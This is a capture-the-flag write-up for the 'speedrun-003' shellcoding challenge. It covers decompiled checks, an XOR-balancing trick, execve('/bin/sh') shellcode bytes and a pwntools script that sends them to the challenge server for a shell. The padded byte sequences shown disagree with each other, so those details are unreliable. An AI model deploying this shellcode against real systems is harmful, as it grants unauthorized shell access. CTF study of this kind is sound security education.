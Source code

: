 # speedrun-003 (speedrun, shellcoding, pwnable)

**DISCLAIMER**: Solved after competition ended.

## Recon

Lets look at our binary and see what we are dealing with

```
vagrant@kali:/vagrant/misc$ file speedrun-003
speedrun-003: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6169e4b9b9e1600c79683474c0488c8319fc90cb, not stripped

vagrant@kali:/vagrant/misc$ ./speedrun-003
Think you can drift?
Send me your drift
asdfsdfafdasadfsfdsfds
You're not ready.

```

Lets look at the disassembly using IDA Pro and see what exactly the binary is doing:

```
__int64 get_that_shellcode()
{
  int v0; // ST0C_4@1
  char v1; // ST0A_1@7
  char buf; // [sp+10h] [bp-30h]@1
  char v4; // [sp+1Fh] [bp-21h]@7
  char v5; // [sp+2Eh] [bp-12h]@1
  __int64 v6; // [sp+38h] [bp-8h]@1

  v6 = *MK_FP(__FS__, 40LL);
  puts("Send me your drift");
  v0 = read(0, &buf, 0x1EuLL);
  v5 = 0;
  if ( v0 == 30 )
  {
    if ( strlen(&buf) == 30 )
    {
      if ( strchr(&buf, 0x90) )
      {
        puts("Sleeping on the job, you're not ready.");
      }
      else
      {
        v1 = xor((__int64)&buf, 15u);
        if ( v1 == (unsigned __int8)xor((__int64)&v4, 15u) )
          shellcode_it(&buf, 0x1Eu);
        else
          puts("This is a special race, come back with better.");
      }
    }
    else
    {
      puts("You're not up to regulation.");
    }
  }
  else
  {
    puts("You're not ready.");
  }
  return *MK_FP(__FS__, 40LL) ^ v6;
}
```
This is a shellcode challenge, so the program wants us to craft shellcode that is exactly `30` bytes.

Then it checks if we didn't have any NOP instructions (`0x90`) in our shellcode.

Finally, it calls a function `xor()` and checks an equality.

If that equality returns true, then we call `shellcode_it()`. `shellcode_it()` runs our shellcode by creating a memory map using `mmap()`, copying our shellcode to that address space and executing it.

If you want a cleaner and simpler example, check out this [gist](https://gist.github.com/CoolerVoid/1557916).

Lets look at the function `xor()`:

```
__int64 __fastcall xor(__int64 a1, unsigned int a2)
{
  unsigned __int8 v3; // [sp+17h] [bp-5h]@1
  unsigned int i; // [sp+18h] [bp-4h]@1

  v3 = 0;
  for ( i = 0; i < a2; ++i )
    v3 ^= *(_BYTE *)(i + a1);
  return v3;
}
```

So this function takes a `buffer` indicated by `a1`, and xors each byte starting from the beginning until `buffer + a2`, and returns the result.

Lets see how `xor()` is used:

```
v1 = xor((__int64)&buf, 15u);
if ( v1 == (unsigned __int8)xor((__int64)&v4, 15u) )
	shellcode_it(&buf, 0x1Eu);
```

and 

```
char buf; // [sp+10h] [bp-30h]@1
char v4; // [sp+1Fh] [bp-21h]@7
```

So, the first xor call xors the first `15` bytes of our buffer together, and stores that result in `v1`.

Then, we compare `v1` to the result of xoring the last `15` bytes of our buffer together (because `0x1F - 0x10 = 15`).

So essentially in our shellcode we need the first `15` bytes xor'd together to equal the last `15` bytes xor'd together.

## Exploit

So our shellcode, as described earlier, needs to have the first `15` bytes xor'd together to equal the last `15` bytes xor'd together.

We are going to do a `execve(/bin/sh)` shellcode.

The easiest solution is to take a shellcode that is less than `30` bytes long, and take our 2nd half of our shellcode and add bytes to it, ensuring the xor of the 2 halves equal one another. 

We can do this because in our shellcode, the last bytes will be a `syscall`, so it doesn't matter what bytes come after.

This [shellcode](https://www.exploit-db.com/exploits/42179) calls `execve(/bin/sh)` using `24` bytes, which is perfect.

The shellcode is:

```
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```

Now, we need to ensure the xor of the 2 halves equal one another, so I wrote a simple python script to calculate that xor result:

```
XD = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f"
finale = 0
for x in XD:
    finale  = finale ^ ord(x)

print finale
```

We run it on our first half of our shellcode because we cannot change this. We get the xor'd result to be `0xcd`.

Since our shellcode is `24` bytes long, we need to add `6` more bytes to the 2nd half of our shellcode and make the xor'd result be `0xcd`.

Through an arbitrary process and elimination (I didn't script this, you could), I came up with the following for the 2nd half of our shellcode:

```
\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\x05\x50\x50\x50\x50\x50\x5f
```

You can rerun the script above and replace our string with this 2nd half and you should get `0xcd` as a result.

So our exploit is done, lets write our final python script and bring it all together:

```
from pwn import *

r = remote("speedrun-003.quals2019.oooverflow.io", 31337)
r.recvuntil("Send me your drift")

shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05\x50\x50\x50\x50\x50\x5f"

r.sendline(shellcode)
r.interactive()
```

Running it:

```
vagrant@kali:/vagrant/misc$ python speedrun3.py
[+] Opening connection to speedrun-003.quals2019.oooverflow.io on port 31337: Done
[*] Switching to interactive mode

$ cat /flag
OOO{Fifty percent of something is better than a hundred percent of nothing. (except when it comes to pwning)}
```

**Flag**: `OOO{Fifty percent of something is better than a hundred percent of nothing. (except when it comes to pwning)}`


